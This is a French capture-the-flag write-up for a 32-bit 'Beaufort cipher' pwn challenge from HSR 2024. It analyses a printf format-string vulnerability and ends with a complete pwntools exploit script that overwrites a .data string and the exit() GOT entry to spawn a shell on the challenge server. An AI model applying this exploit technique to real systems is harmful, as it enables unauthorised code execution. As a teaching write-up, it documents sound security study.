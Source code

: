 ```yaml
---
title: Chiffrement de Beaufort -  HSR 2024
date: 2024-04-01
draft: true
categories:
  - format string
  - HSR
  - pwn
tags:
  - pwn
  - format_string
  - HSR
---
```

## Binary Analysis
Pour analyser le binaire, on va commencer par l'ouvrir avec un decompilo comme Binja. Comme il n'est pas strippe, on peut s'aider des symboles pour deviner ce que fait chaque fonction.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_symbols.png)

A part la fonction backdoor qui aspire a servir de fonction win, le nom des fonctions ne nous apporte rien d'interessant.
Regardons un peu plus en detail ce que fait le programme.

### Main()
La fonction main se divise en 3 etapes. Tout d'abord elle va lire l'entree standard a 2 reprises, attendant de l'utilisateur qu'il envoie une chaine de maximum 0x64 caracteres. Ensuite elle va stocker ces entrees dans 2 buffers, puis appeler la fonction beaufortCipher avec ces 2 buffers en parametres.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_main1.png)

### beaufortCipher()
Quant a la fonction cipherBeaufort, comme son nom l'indique, elle applique un chiffrement de beaufort sur notre premiere input. La clee utilisee pour chiffrer le buffer est enfait notre 2eme input.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_cipher.png)

### End of main()
Une fois que notre input a ete chiffree avec la cle qu'on donne au programme, la fonction main affiche le buffer chiffre, puis la clee qu'on lui a donne.
Et c'est ici que se trouve la vuln. En effet, le printf que le programme appel pour afficher notre clee prend directement la cle comme premier argument. Ainsi notre input (la cle) est interpetee, par printf, comme etant le formatteur.
Le programme est donc vulnerable a une format string.

![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_main2.png)

## Theorycraft
Maintenant reflechissons a comment on va exploiter la vuln. Si on fait un checksec, on remarque que le binaire n'a ni PIE, ni RelRO.
```sh title:checksec
Canary  :    ✘ 
NX      :    ✓ 
PIE     :    ✘ 
Fortify :    ✘ 
RelRO   :    Partial
```

Dans tous les cas on part du principe que l'ASLR est actif. De plus, comme le chall est en remote, on a pas les details de l'environnement dans lequel run le binaire, donc c'est trop foireux de se baser sur des adresses hardcodees de la stak.

Par contre, l'abscence de RelRO et de PIE nous permet non seulement de localiser la GOT a coup sur mais aussi d'y acceder en ecriture. On peut donc envisager d'overwrite certaines entrees de la GOT afin d'obtenir notre shell.

Enfin on a une fonction backup qui lance un system("/bin/ls"). La string "/bin/ls" etant dans la section .data, on peut la changer pour "/bin/sh" avant de rediriger le flow d'execution vers backup.
## Exploitation
Notre exploit va se diriger en 3 etapes:
- Trouver a quel offset notre input se trouve sur la stack au moment du call a printf
- Overwrite "/bin/ls" par "/bin/sh"
- Overwrite l'entree de exit() dans la got avec l'adresse de backup()

## Input offset
Pour trouver l'offset, tout ce qu'on a a faire est de lancer le programme, break au moment du printf vulnerable et regarder a quelle distance de $esp se trouve notre input. Pour reperer facilement notre input, on va envoyer "aaaaaaa..." comme clee.
![Malloc from Top Chunk](/MyLittlePwney/images/beaufort_gdb.png)

On voit que notre input est a 0x78 bytes de $esp, soit en 32 bits, 30\*4 bytes. Notre offset est donc 30.

## The Exploit
Pour ce qui est de l'exploit, on va utiliser le module fmtstr de pwntools et plus particulierement la fonction fmtstr_payload.

```py title:payload
payload = fmtstr_payload(30, writes) 
print(payload)
```

L'adresse de "/bin/ls" est 0x0804c024. On va donc ecrire "sh" a 0x0804c029, ce qui nous donnera "/bin/sh".
Enfin on va reecrire l'entree de exit dans la GOT par l'adresse de la fonction backup.

```py title:write
writes = { 0x0804c029: 0x00006873, 
		   0x0804c010: elfexe.sym['backdoor']}
```

Ce qui donne comme exploit final :
```py title:exploit.py
#!/usr/bin/python3.9 
from pwn import * 

context.binary = elfexe = ELF('./beaufort.bin')

def start(argv=[], *a, **kw): 
	'''Start the exploit against the target.''' 
	elf_path = elfexe.path 
	
	if args.REMOTE: 
		remote_server = '10.22.148.11'
		remote_port = 1341
		target = remote(remote_server, remote_port) 
	else:  
		target = process([elf_path] + argv, *a, **kw) 
	
	return target 
		
#=========================================================== 
# EXPLOIT GOES HERE 
#=========================================================== 
def pad(payload): 
	return payload+b'_'*(0x64-len(payload)) 
	
arguments = [] 
io = start(arguments) 

writes = {0x0804c029: 0x00006873, 
		  elfexe.got['exit']: elfexe.sym['backdoor']} 

payload = b"A"*0x60 
io.sendline(payload) 

payload = fmtstr_payload(30, writes) 
payload = pad(payload) 

print(payload) 
io.sendline(payload) 

io.interactive() 
io.close()
```
